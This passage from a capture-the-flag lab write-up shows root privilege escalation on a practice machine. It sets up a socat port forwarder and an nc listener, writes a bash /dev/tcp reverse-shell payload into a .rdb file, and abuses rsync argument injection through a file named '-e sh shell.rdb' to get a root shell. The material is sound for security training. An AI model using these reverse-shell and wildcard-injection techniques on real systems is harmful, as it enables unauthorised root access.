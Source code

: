 ```bash
rsync -a -e sh shell.rdb rsync://backup:873/src/rdb/
```

Lets play with this strategy and try to get a revese shell as root here. For that lets set another port forwarder on `node-RED` with `socat` redirecting the traffic to our Kali.

```bash
root@nodered:/tmp# /tmp/socat-static tcp-listen:6666,fork tcp:10.10.14.8:6666 &
/tmp/socat-static tcp-listen:6666,fork tcp:10.10.14.8:6666 &
[2] 1725
```

And start a listener on Kali.

```bash
$ rlwrap -cAr nc -nlvp 6666
listening on [any] 6666 ...
```

Now we add our payload on a `.rdb` file.

```bash
www-data@www:/tmp$ echo "bash -c 'bash -i >& /dev/tcp/172.19.0.3/6666 0>&1' &" > shell.rdb
<sh -c 'bash -i >& /dev/tcp/172.19.0.3/6666 0>&1' &" > shell.rdb
```

```bash
www-data@www:/tmp$ cat shell.rdb
bash -c 'bash -i >& /dev/tcp/172.19.0.3/6666 0>&1' &
```

With all ready, we now copy our file to the directory the script is checking.

```bash
www-data@www:/tmp$ cp shell.rdb /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/shell.rdb
<.rdb /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/shell.rdb  
```

Then we create a file with the trick name.

```bash
www-data@www:/tmp$ touch /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/-e\ sh\ shell.rdb
<ar/www/html/f187a0ec71ce99642e4f0afbd441a68b/-e\ sh\ shell.rdb
```

```bash
www-data@www:/tmp$ ls -lha /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
ls -lha /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
total 12K
-rw-r--r-- 1 www-data www-data    0 Aug 24 06:24 -e sh shell.rdb
drwxr-xr-x 2 www-data www-data 4.0K Aug 24 06:24 .
drwxr-xr-x 5 root     root     4.0K Jul 15  2018 ..
-rw-r--r-- 1 www-data www-data   53 Aug 24 06:24 shell.rdb
```

After a couple of minutes we get a shell.

```bash
$ rlwrap -cAr nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.94] 59666
bash: cannot set terminal process group (8987): Inappropriate ioctl for device
bash: no job control in this shell
root@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b# id
id
uid=0(root) gid=0(root) groups=0(root)
```
